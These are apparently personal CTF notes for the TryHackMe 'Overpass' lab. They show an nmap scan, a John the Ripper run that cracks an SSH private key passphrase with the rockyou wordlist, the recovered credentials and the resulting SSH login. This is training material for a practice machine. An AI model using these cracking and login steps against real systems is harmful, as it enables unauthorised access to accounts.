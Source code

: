 # Info
- IP = $IP

## Creds
- james:james13

# Ports

## Port Scanning

```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn $IP

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## 22

### Trying to crack RSA PRIVATE KEY

- https://reddyyz.medium.com/cracking-ssh-rsa-private-keys-ead3c126df6b

```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Overpass]
└─$ john id_rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id-rsa)     
1g 0:00:00:00 DONE (2024-01-30 11:17) 7.142g/s 95542p/s 95542c/s 95542C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Login via ssh with cracked passphrase

```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Overpass]
└─$ ssh -i id-rsa james@$IP                          
Enter passphrase for key 'id-rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jan 30 16:19:16 UTC 2024

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: $IP
  Swap usage:   0%


47 packages can be updated.
```
